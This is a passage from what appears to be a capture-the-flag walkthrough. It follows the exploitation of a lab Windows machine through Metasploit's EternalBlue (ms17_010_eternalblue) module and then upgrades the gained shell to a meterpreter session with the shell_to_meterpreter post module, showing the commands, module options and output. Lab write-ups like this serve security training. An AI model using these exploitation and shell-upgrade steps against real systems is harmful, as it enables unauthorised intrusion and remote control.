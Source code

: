 > [+] 10.10.36.127:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
>   
> [+] 10.10.36.127:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
>   
> [+] 10.10.36.127:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

  
### Task 3 :

#### 1) If you haven't already, background the previously gained shell `CTRL + Z`. Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use ?

`msf5 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter`

> Matching Modules
> 
>    \#  Name                                    Disclosure Date  Rank    Check  Description
> 
>   -  ----                                    ---------------  ----    -----  -----------
>   
>    0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade
  
=> post/multi/manage/shell_to_meterpreter  

#### 2) Select this (use MODULE_PATH). Show options, what option are we required to change ?

`msf5 exploit(windows/smb/ms17_010_eternalblue) > use 0`
  
`msf5 post(multi/manage/shell_to_meterpreter) > show options`

> Module options (post/multi/manage/shell_to_meterpreter):
> 
>    Name     Current Setting  Required  Description
>   
>    ----     ---------------  --------  -----------
>   
>    HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
>   
>    LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
>   
>    LPORT    4433             yes       Port for payload to connect to.
>   
>    SESSION                   yes       The session to run this module on.

=> SESSION

#### 3) Set the required option, you may need to list all of the sessions to find your target here.

`sessions -l`
  